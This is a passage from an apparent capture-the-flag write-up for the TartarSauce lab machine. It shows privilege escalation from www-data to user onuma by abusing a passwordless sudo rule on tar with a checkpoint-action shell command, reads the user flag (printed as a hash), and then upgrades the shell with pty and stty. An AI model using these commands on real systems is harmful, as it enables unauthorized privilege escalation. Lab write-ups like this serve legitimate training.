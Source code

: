 ### /bin/tar
Notice that User www-data could run sudo with no password on `/bin/tar`

```bash
file /bin/tar
```

```txt
www-data@TartarSauce:/$ file /bin/tar
file /bin/tar
/bin/tar: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=dd23bdf9fe9a2f6ec542081084723f96cb59e7d5, stripped
```

Notice that /bin/tar was a 32-bit LSB executable file.

we google `/bin/tar privilege escalation` and will find this page:

https://oscpnotes.infosecsanyam.in/My_OSCP_Preparation_Notes--LINUX_-_Privilege_Escalation--LINUX_-_Binaries_for_escalation--tar.html

```
sudo -l -> NOPASSWD: /bin/tar -> sudo -u onuma /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

```bash
sudo -u onuma /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
# upgrade the shell
id
```

![[TartarSauce-12.png]]

Excellent! we are use sudo -u to swith the user onuma.

Let's check user flag.

```bash
locate user.txt
cat /home/onuma/user.txt
# flag
295088ba60affe5e537bf2b2f479de98
```

![[TartarSauce-13.png]]

## Privesc: onuma –> root

### Upgrade the shell

```bash
# https://null-byte.wonderhowto.com/how-to/upgrade-dumb-shell-fully-interactive-shell-for-more-flexibility-0197224/
python -c 'import pty; pty.spawn("/bin/bash")'
^z
echo $TERM
stty -a
stty raw -echo && fg
# nc -lvp 1234
reset
xterm-256color
stty rows 47 columns 176
```
